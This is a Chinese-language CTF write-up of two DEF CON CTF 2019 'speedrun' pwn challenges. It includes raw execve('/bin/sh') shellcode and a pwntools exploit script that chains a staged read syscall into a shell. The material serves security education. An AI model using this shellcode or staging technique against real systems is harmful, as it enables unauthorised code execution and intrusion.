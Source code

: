 ```yaml
---
layout:     post
title:      "Defcon ctf 2019之我好菜"
date:       2019-05-14
author:     "Ambi9u0us"
catalog: true
tags:
    - ctf
    - Writeup
    - speedrun
    - defcon ctf 2019
---
```


# Defcon ctf 2019 之菜鸟爬山

## 前言

这次defcon ctf 2019，尝试去做了一下，然后发现两眼一抹黑，看了为数不多的几道题，最后都没有做出来，最后只做了两道speedrun，分别是003和006，两道都是关于shellcode构造的题，好歹是学了点东西，权作总结。

## speedrun-003

首先使用IDA打开文件，分析可以发现主要流程在函数`get_that_shellcode()`中：

![1557815993760](/img/in-post/1557815993760.png)

大意就是读取用户输入的30字节大小的字符串，然后保证前15个字符与后15个字符异或的值相等，然后就执行该段shellcode。

这里的重点在于，当前29个字节异或的值与最后一个字节值相等时，必定满足该条件，所以只需要找一段小于30字节的shellcode就可以了，这里找到了一段执行execv(‘/bin/sh’,0,0)的shellcode：

```c
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

将shellcode补足30个字节，并且计算前29个字节异或的值填到最后一个字节，使用pwntools编写脚本，即可getshell。

## speedrun-006

使用IDA打开文件，主要函数是`get_that_shellcode()`：

![1557816501982](/img/in-post/1557816501982.png)

用户要输入26个字节大小的shellcode，然后会进入函数`shellcode_it()`函数：

![1557816599412](/img/in-post/1557816599412.png)

这个函数主要是对输入的26个字节进行处理，最后放到了一段总长度为78字节的区域，然后运行这一段区域的代码，值得注意的是，前48个字节主要是进行了将寄存器统统置0的操作，后面30个字节是将26个字节中间插入4个0xcc，将其截断，分割成5，4，9，8四个部分，所以要解决的问题就是两点：

- shellcode分片构造(比较好构造，就不多做介绍)
- 消除寄存器被置0的影响

由于寄存器被置0，这就不得不提syscall这个指令的骚操作，这种方法主要是当寄存器的值都为0时，执行syacall会将rip的值给到rcx，所以分片构造时，合理利用rcx实现syscall_read()的效果，就可以不受字节数限制，发送新的获取shell的shellcode了：

```python
shellcode=asm("""
	syscall;
	jmp xx;
	nop;
	nop;
	xx:
	jmp yy;
    ret
    nop
    yy:
    xor rsi,rcx;
    xor edx,ecx;
    syscall
	"""
,os="linux"
,arch="amd64")
# 0f05eb029090eb02c3904831ce31ca0f05
shellcode=shellcode.ljust(26,'\x01') 
p.recvuntil("ride")
p.send(shellcode)

payload="\x90"*0x30+asm("xor rsp,rcx;add rsp,0x500",os="linux",arch="amd64")+asm(shellcraft.amd64.sh(),os="linux",arch="amd64")
p.send(payload)
p.interactive() #get the shell
```

这里主要解释xor rsi,rcx;xor edx,ecx;这两行汇编代码，这里是实现了调用`syscall_read(eax,rsi,edx,rdi)`，其中eax已经为0，代表`syscall_read()`的系统调用号，rsi则是read读到的数据存储的起始地址（这里对应syscall第一次执行时的位置），edx则是对应长度（对应syscall所处内存地址普遍很大，足够读取shellcode），rdi为0代表是从标准输入读入数据，所以我们才能再次传入shellcode执行获得shell。

这里可以通过练习`star ctf 2018`的`primepwn`来熟悉这一方法，[题目地址](<https://github.com/sixstars/starctf2018/tree/master/pwn-primepwn>)以及对该题目的一个解法讲解的博客[文章地址](<http://eternalsakura13.com/2018/04/27/star_primepwn/>)可以点击进行查看。